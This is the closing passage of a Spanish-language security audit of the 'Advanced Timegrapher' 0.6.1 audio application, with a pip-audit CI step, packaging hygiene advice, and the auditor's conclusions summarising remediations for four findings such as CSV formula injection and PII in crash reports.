   - name: Dependency Vulnerability Audit
     run: |
       pip install pip-audit
       pip-audit
   ```

3. **Verificación de Integridad en Empaquetado:**
   Al construir binarios con PyInstaller y paquetes RPM, asegurar que no se incluyan archivos temporales, scripts de test ni certificados locales en la raíz del bundle.

---

## 6. Conclusiones y Dictamen del Auditor

El código base de **Advanced Timegrapher** en su versión 0.6.1 exhibe una arquitectura de ingeniería de audio de alto nivel:
- La eliminación completa de extensiones C++ nativas propietarias y de SciPy en favor de un motor vectorizado en NumPy puro reduce drásticamente la superficie de ataque por corrupción de memoria (*buffer overflows*, *use-after-free*).
- El aislamiento de procesos mediante `spawn` para la captura y el análisis mitiga bloqueos del bucle de eventos de la GUI.
- La escritura atómica de archivos de audio mediante archivos temporales y `os.replace` previene estados de archivo corruptos o incompletos.

Implementando las medidas de remediación priorizadas en este informe —especialmente el **saneamiento de celdas CSV** ([`SEC-01`](#sec-01-inyección-de-fórmulas-en-exportaciones-csv-csv--formula-injection)), la **anonimización de PII en reportes de fallos** ([`SEC-02`](#sec-02-exposición-de-pii-y-rutas-locales-en-paquete-de-reportes-de-fallos-information-exposure)), el **acotamiento de memoria en audio** ([`SEC-03`](#sec-03-denegación-de-servicio-dos-por-asignación-de-memoria-no-acotada-en-decodificación-de-audio)) y la **declaración formal de signaturas ctypes** ([`SEC-04`](#sec-04-signatura-c-ffi--ctypes-incompleta-en-linux_ntp_synchronized-truncamiento-de-punteros-en-64-bit))— la aplicación alcanzará un nivel de seguridad y robustez industrial idóneo para su distribución masiva.
